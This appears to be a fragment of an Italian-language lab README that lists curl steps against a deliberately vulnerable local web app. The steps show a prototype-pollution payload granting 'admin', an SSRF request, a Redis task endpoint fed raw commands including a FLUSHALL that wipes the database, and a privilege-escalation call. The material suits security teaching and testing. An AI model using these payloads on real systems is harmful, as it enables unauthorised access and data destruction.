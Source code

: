 2. **Verifica iniziale dello stato:**
```bash
curl http://localhost:3000/check

#output atteso {}% 
```

3. **Attacco prototype pollution:**
```bash
curl -X POST http://localhost:3000/pollute \
  -H "Content-Type: application/json" \
  -d '{ "__proto__": { "admin": true } }'
```

4. **Verifica effetto:**
```bash
curl http://localhost:3000/check

#output atteso {"admin":true}%     
```

5. **SSRF*
```bash
curl "http://localhost:3000/ssrf?url=http://example.com"
```

6. **Redis, distribuzione task**
```bash
curl -X POST http://localhost:3000/task \
-H 'Content-Type: application/json' \
-d '{"command": "PING", "args": []}'
```
or
```bash
curl -X POST http://localhost:3000/task \
-H 'Content-Type: application/json' \
-d '{"command": "FLUSHALL", "args": []}'
#this one deletes the db
```

7. **Privilege escalation**
```bash
curl http://localhost:3000/escalate
```
